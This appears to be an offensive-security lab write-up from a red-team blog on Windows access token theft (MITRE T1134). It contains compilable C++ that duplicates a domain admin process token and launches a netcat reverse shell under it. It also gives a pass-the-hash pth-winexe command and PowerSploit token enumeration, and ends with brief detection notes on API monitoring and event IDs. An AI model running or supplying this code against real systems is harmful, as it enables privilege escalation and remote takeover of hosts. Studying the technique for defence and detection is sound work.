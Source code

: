 ```yaml
---
layout: post
title: "2024-06-18-t1134 access token manipulation"
date: 2024-06-18
categories: privilege-escalation
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1134-access-token-manipulation/
---
```


---
description: >-
  Defense Evasion, Privilege Escalation by stealing an re-using security access
  tokens.
---

# Primary Access Token Manipulation

## Context

One of the techniques of token manipulation is creating a new process with a token "stolen" from another process. This is when a token of an already existing access token present in one of the running processes on the victim host, is retrieved, duplicated and then used for creating a new process, making the new process assume the privileges of that stolen token.

A high level process of the token stealing that will be carried out in this lab is as follows:

| Step                                                         | Win32 API                 |
| ------------------------------------------------------------ | ------------------------- |
| Open a process with access token you want to steal           | `OpenProcess`             |
| Get a handle to the access token of that process             | `OpenProcesToken`         |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx`        |
| Create a new process with the newly aquired access token     | `CreateProcessWithTokenW` |

## Weaponization

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal the token from, since it is running as a domain admin and makes it for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../../.gitbook/assets/tokens-victim-3060.png)

Note the line 16, which specifies the executable that should be launched with an impersonated token, which in our case effectively is a simple netcat reverse shell calling back to the attacking system:

![](../../.gitbook/assets/tokens-shell-c++.png)

This is the code if you want to compile and try it yourself:

{% code title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```
{% endcode %}

## Execution

Launching `Tokens.exe` from the powershell console spawns a reverse shell that the attacker catches. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token theft:

![](../../.gitbook/assets/token-shell-impersonated.png)

The logon for OFFESNE\administrator in the above test was of logon type 2 (interactive logon, meaning I launched a new process on the victim system using a `runas /user:administrator@offense cmd` command).&#x20;

Another quick test that I wanted to do was a theft of an access token that was present in the system due to a network logon (i.e psexec, winexec, pth-winexe, etc), so I spawned a cmd shell remotely from the attacking machine to the victim machine using:

{% code title="attacker@local" %}
```
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```
{% endcode %}

which created a new process on the victim system with a PID of 4780:

![](../../.gitbook/assets/tokens-winexe.png)

Enumerating all the access tokens on the victim system with PowerSploit:

```csharp
Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid
```

...gives the below. Note the available token (highlighted) - it is the cmd.exe from above screenshot and its logon type is as expected - 3 - a network logon:

![](../../.gitbook/assets/tokens-all.png)

This token again can be stolen the same way we did it earlier. Let's change the PID in `Tokens.cpp` of the process we want to impersonate to `4780`:

![](../../.gitbook/assets/tokens-new-pid.png)

Running the compiled code invokes a new process with the newly stolen token:

![](../../.gitbook/assets/tokens-new-shell.png)

note the cmd.exe has a PID 5188 - if we rerun the `Invoke-TokenManipulation`, we can see the new process is using the access token with logon type 3:

![](<../../.gitbook/assets/token-new-logon-3 (1).png>)

## Observations

Imagine you were investigating the host we stole the tokens from, because it exhibited some anomalous behaviour. In this particularly contrived example, since `Tokens.exe` was written to the disk on the victim system, you could have a quick look at its dissasembly and conclude it is attempting to manipulate access tokens - note that we can see the victim process PID and the CMDLINE arguments:

![](<../../.gitbook/assets/token-disasm (1).png>)

As suggested by the above, you should think about API monitoring if you want to detect these token manipulations on endpoints, but beware - this can be quite noisy.&#x20;

Windows event logs of IDs `4672` and `4674` may be helpful for you as a defender also - below shows a network logon of a `pth-winexe //10.0.0.2 -U offense/administrator%pass cmd` and then later, a netcat reverse shell originating from the same logon session:

![](../../.gitbook/assets/token-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1134" %}

{% embed url="https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/SecGloss/p-gly#-security-primary-token-gly" %}

{% embed url="https://technet.microsoft.com/pt-pt/library/cc783557%28v=ws.10%29.aspx?f=255&MSPPError=-2147217396" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/secauthz/access-tokens" %}

{% embed url="https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446671(v=vs.85).aspx" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithtokenw" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/aa446617(v=vs.85).aspx" %}

{% embed url="https://www.youtube.com/watch?v=Ed_2BKn3QR8" %}

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)
@spotheplanet
